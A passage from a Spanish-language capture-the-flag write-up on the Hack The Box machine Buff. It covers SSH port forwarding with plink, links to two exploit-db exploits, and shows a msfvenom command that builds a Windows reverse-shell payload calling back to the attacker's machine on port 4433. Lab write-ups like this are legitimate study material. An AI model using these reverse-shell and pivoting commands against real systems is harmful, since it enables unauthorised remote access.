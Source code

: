 Acá tuve algunos problemas, ya que por alguna extraña razón (valide firewall, configuraciones, etc) no me permitía conectarme al puerto **22** (SSH), así que cambiando el puerto que estará en escucha si nos permite ejecutarlo.

```bash
$cat /etc/ssh/sshd_config
...
Port 177
...
```

Y ejecutamos:

![plinkdone](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/buff/plinkdone.png)

Perfecto, ya tenemos el puerto 8888 del localhost de la máquina 10.10.10.198 (BUFF) en nuestro equipo, lo siguiente es tomar algún exploit, crear el payload y ejecutarlo sobre nuestro localhost :)

Usaremos dos exploits, de uno obtendré como generar el payload y el otro será la estructura del script.

* [Payload](https://www.exploit-db.com/exploits/48499), aunque se puede usar este también para explotarlo, pero me pareció más legible el siguiente:
* [El que usaremos](https://www.exploit-db.com/exploits/48389).

Le diremos que nos genere una reverse Shell hacia el puerto **4433**. Primero generemos el payload con `msfvenom` (que no es lo mismo que `msfconsole` (metasploit)).

```bash
# msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> EXITFUNC=thread -b "\x00\x0d\x0a" -f python
$msfvenom -p windows/shell_reverse_tcp LHOST=10.10.15.86 LPORT=4433 EXITFUNC=thread -b "\x00\x0d\x0a" -f python
```
